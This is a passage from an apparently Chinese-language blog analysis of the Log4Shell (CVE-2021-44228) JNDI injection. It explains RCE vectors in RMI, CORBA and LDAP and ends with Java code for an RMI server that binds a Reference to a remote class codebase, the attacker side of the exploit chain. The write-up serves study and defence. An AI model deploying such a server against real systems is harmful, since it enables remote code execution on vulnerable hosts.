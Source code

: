 可以看出RMI与CORBA相比于LDAP相对安全许多，但是看向Naming Manager和流程图，我们就会发现很多问题

![image-20220110235344994](../assets/2021-12-12-CVE-2021-44228-Apache%20Log4jshell%E7%9A%84%E6%B7%B1%E5%85%A5%E6%80%9D%E8%80%83/image-20220110235344994.png)

Naming Manager无需配置开启，且没有安全管理器进行安全保护。Naming Manager的作用是解码JNDI SPI层，并且连接上下文，那么就需要获取Remote Factory 以及 Reference Addresses 。

在2016年的blackhat大会中，**Alvaro Muñoz** 与 **Oleksandr Mirosh**分享了RMI、CORBA与LDAP中可以用来完成RCE的主要向量

- RMI

  - JNDI Reference
  - Remote Object
- CORAB

  - IOR
- LDAP

  - Serialized Object
  - JNDI Reference
  - Remote Location


举个栗子:

```java
package jndiInject;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class SERVER {

    public static void main(String args[]) throws Exception {

        Registry registry = LocateRegistry.createRegistry(1099);
        //注意看厦航Reference
        Reference aa = new Reference("ExecTest", "ExecTest", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
        registry.bind("aa", refObjWrapper);

    }

}
```
